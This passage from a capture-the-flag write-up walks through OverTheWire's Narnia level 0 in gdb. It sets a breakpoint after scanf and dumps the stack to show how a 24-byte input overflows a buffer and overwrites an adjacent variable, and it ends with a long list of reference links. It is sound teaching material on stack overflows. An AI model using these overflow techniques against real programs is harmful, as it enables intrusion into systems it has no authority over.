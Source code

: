 ```sh
   0x080484f7 <+51>:  mov    DWORD PTR [esp+0x4],edx
   0x080484fb <+55>:  mov    DWORD PTR [esp],eax
   0x080484fe <+58>:  call   0x8048400 <__isoc99_scanf@plt>
   0x08048503 <+63>:  mov    eax,0x804868e
   0x08048508 <+68>:  lea    edx,[esp+0x18]
   0x0804850c <+72>:  mov    DWORD PTR [esp+0x4],edx
(...)
End of assembler dump.
```
Let's put a break point right after ```scanf```:

```sh
(gdb) b *main+63
Breakpoint 1 at 0x8048503
```

We run the debugged program with 20 Bs (\x42) as the input. It stops in the address above, right after ```scanf```:
```sh
(gdb) r
Starting program: /games/narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance:

Breakpoint 1, 0x08048503 in main ()
```

Now we examine the memory in, say, 12 counts:

```sh
(gdb) x/12xw $esp
0xffffd6a0: 0x08048689  0xffffd6b8  0x08049ff4  0x08048591
0xffffd6b0: 0xffffffff  0xf7e59d46  0x42424242  0x42424242
0xffffd6c0: 0x42424242  0x42424242  0x42424242  0x41414100
```

The variable *buf* is in the 7-11th entries (0x42424242). Right after that  is *val* (which we know is still 0x41414141). Wait, do you see the two zeros in ```0x41414100```? This is the space in the end of *buf*

Finally, we test with 20 Bs + 4 Cs and confirm that our exploit works:

```sh
(gdb) x/12xw $esp
0xffffd6a0: 0x08048689  0xffffd6b8  0x08049ff4  0x08048591
0xffffd6b0: 0xffffffff  0xf7e59d46  0x42424242  0x42424242
0xffffd6c0: 0x42424242  0x42424242  0x42424242  0x43434343
```


---

## Level 1:  Stack Overflow  with Environment Variables

### Step 1: Understanding the Problem


[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP